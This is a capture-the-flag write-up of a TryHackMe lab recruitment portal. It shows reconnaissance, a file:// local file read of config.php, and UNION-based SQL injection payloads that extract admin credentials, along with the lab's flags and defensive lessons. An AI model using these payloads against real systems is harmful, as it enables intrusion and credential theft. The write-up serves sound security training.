# Recruit — TryHackMe Writeup

**Category:** Web Exploitation, SQL Injection, LFI
**Difficulty:** Easy/Medium
**Target:** Recruitment Portal Web Application

---

## Scenario

Recruit has just launched its new recruitment portal, allowing HR staff to manage candidate applications and administrators to oversee hiring decisions. The task is to assess the application like a real attacker — mapping its structure, abusing exposed functionality, and exploiting vulnerabilities to gain initial foothold, escalate access, and ultimately log in as the administrator.



---

## Reconnaissance

Started with an aggressive Nmap scan against the target `10.49.159.78`:

```
nmap -A 10.49.159.78
```

| Port | Service | Version / Details |
|------|---------|--------------------|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu |
| 53/tcp | DNS | ISC BIND 9.16.1-Ubuntu |
| 80/tcp | HTTP | Apache httpd 2.4.41 (Ubuntu) |



**Initial Attack Surface:** HTTP on port 80 offered the largest attack surface since it hosts the Recruit web application. Next step — web enumeration (directory/file discovery + endpoint inspection).

---

## Web Recon

### API Enumeration

Discovered an API endpoint at `http://recruit.thm/api.php`, which exposed a FAQ section describing how the Recruit API works. One entry revealed that candidate CVs could be retrieved via:

```
/file.php?cv=<URL>
```

This accepts a **user-controlled URL** as the `cv` parameter — a strong lead for a potential file read vulnerability.



### Directory Enumeration

Ran DIRB against the target with the default wordlist:

```
dirb http://10.49.159.78/
```

| Path | Type | Status | Observation |
|------|------|--------|-------------|
| `/assets/` | Directory | — | Static application resources |
| `/index.php` | File | 200 | Main PHP application page |
| `/javascript/` | Directory | — | JavaScript resources |
| `/mail/` | Directory | — | Interesting — needs investigation |
| `/phpmyadmin/` | Directory | — | Potential DB admin interface |
| `/server-status` | Endpoint | 403 | Restricted |
| `/sitemap.xml` | File | 200 | May reveal additional paths |



---

## Mail Log Analysis

The exposed `/mail/` directory contained a leaked Postfix mail log with internal deployment details:

- HR username: `hr`
- HR credentials were stored in `config.php` (temporarily, for "ease of access" during rollout)
- Admin credentials were **not** in application files — stored in the backend database instead



This gave two leads: read `config.php` for HR creds, and target the backend DB for admin creds.

---

## Local File Read via API

Using the file-retrieval endpoint discovered earlier:

```
/file.php?cv=file:///var/www/html/config.php
```

This returned the contents of `config.php`, confirming the endpoint could be abused to read local files on the server.

```
$APP_NAME    = 'Recruit';
$APP_ENV     = 'production';
$APP_VERSION = '1.2.4';
$APP_DEBUG   = false;

$HR_PASSWORD = 'hrpassword123';

$API_ENABLED = true;
$API_VERSION = 'v1';
```

**Recovered HR credentials:**

```
Username: hr
Password: hrpassword123
```



---

## HR Dashboard Access — Flag 1

Logged into the recruitment portal using the recovered HR credentials. Dashboard displayed candidate application records and the **HR flag**:

```
THM{LOGGED_IN_USER}
```



The dashboard's **candidate search** functionality became the next attack surface.

---

## SQL Injection Discovery

Tested the search parameter:

```
/dashboard.php?search='
```

A single quote triggered a MySQL syntax error — confirming the input was unsanitized and revealing the backend was MySQL.



### UNION-Based Injection

Determined the column count via UNION SELECT:

```
bob' UNION SELECT 1-- -
bob' UNION SELECT 1,2-- -
bob' UNION SELECT 1,2,3-- -
bob' UNION SELECT 1,2,3,4-- -
```

Confirmed **4 columns**.



### Database Enumeration

```
bob' UNION SELECT 1,database(),version(),4-- -
```

**Result:**
- Database: `recruit_db`
- DBMS: MySQL
- Version: `8.0.33-0ubuntu0.20.04.2`



### Table Enumeration

```
bob' UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema=database()-- -
```

Found two tables: `candidates` and `users` (the latter likely holding credentials).



### Column Enumeration

```
bob' UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name='users'-- -
```

Confirmed columns: `id`, `username`, `password`.



### Extracting Admin Credentials

```
bob' UNION SELECT 1,username,password,4 FROM users-- -
```

**Result:**

```
Username: admin
Password: admin@001admin
```



---

## Administrator Access — Flag 2

Logged in as `admin` using the extracted credentials. The admin dashboard had extra privileges — **Approve/Reject** controls on each candidate — plus the **admin flag**:

```
THM{LOGGED_IN_ADM1N1}
```



---

## Attack Chain Summary

```
Nmap Recon
   |
Directory Enumeration
   |
API Discovery (file.php?cv=<URL>)
   |
Leaked Mail Log (/mail/)
   |
config.php File Read (LFI)
   |
HR Credentials Recovered
   |
HR Dashboard Access -> Flag 1
   |
SQL Injection (search parameter)
   |
4-Column UNION Confirmed
   |
Database Enumeration (recruit_db)
   |
users Table + Columns Identified
   |
Admin Credentials Extracted
   |
Admin Dashboard Access -> Flag 2
```

## Key Learnings

- **Unrestricted URL-based file retrieval** (`file.php?cv=<URL>`) allowed arbitrary local file reads using the `file://` wrapper — classic LFI via SSRF-like functionality.
- **Sensitive credentials in config files** are a critical risk, especially when directories like `/mail/` are left exposed and indexable.
- **Unsanitized search parameters** led directly to SQL injection, allowing full database enumeration via `UNION SELECT`.
- Always validate/sanitize user input, restrict outbound file-fetch functionality to a safe allowlist, and never store credentials in world-readable config files.
